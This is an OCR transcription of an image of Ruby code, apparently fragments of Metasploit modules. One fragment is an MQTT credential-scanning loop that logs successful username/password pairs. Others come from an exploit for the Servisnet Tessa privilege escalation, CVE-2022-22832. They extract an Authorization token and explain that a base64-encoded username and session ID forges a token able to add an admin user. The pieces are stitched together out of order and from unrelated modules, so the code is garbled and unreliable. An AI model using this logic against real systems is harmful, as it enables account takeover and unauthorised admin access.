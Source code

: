   scanner.scan! do |result|
    credential_data = result.to_h
    credential_data.merge!(
      module_fullname: fullname,
      workspace_id: myworkspace_id
    )
    password = result.credential.private
    username = result.credential.public
    if result.success?
      credential_core = create_credential(credential_data)
      credential_data[:core] = credential_core
      create_credential_login(credential_data)
      print_good("MQTT Login Successful: #{username}/#{password}")
    else
      invalidate_login(credential_data)
      vprint_error("MQTT LOGIN FAILED: #{username}/#{password} (#{result.proof})")
    end
  end
 end
if res && res.code == 200 && res.body =~ /default.a.defaults.headers.post/
 token = split(res.body, 'Authorization')
 print_status("Authorization: #{token}") 
 return token
else
 fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')
end
            var token = Buffer.from(`${user.username}:${user.usersessionid}`, 'utf8').toString('base64');

            The logic required for the Authorization header is as above.
            Therefore, after accessing an authorized user ID value and active sessionId value,
            if the username and sessionId values are encoded with base64, a valid Token will be obtained and a new admin user can be added.       

  ),
  'References'     =>
    [
      [ 'CVE', 'CVE-2022-22832' ],
      [ 'URL', 'https://www.pentest.com.tr/exploits/Servisnet-Tessa-Privilege-Escalation.html' ],
      [ 'URL', 'http://www.servisnet.com.tr/en/page/products' ]
    ],
  'Author'         =>
    [
      'Özkan Mustafa AKKUŞ <AkkuS>' # Discovery & PoC & MSF Module @ehakkus
    ],
  'License'        => MSF_LICENSE,
  'DisclosureDate' => "Dec 22 2021",
  'DefaultOptions' =>
    {
      'RPORT' => 443,
      'SSL'   => true
    }
))
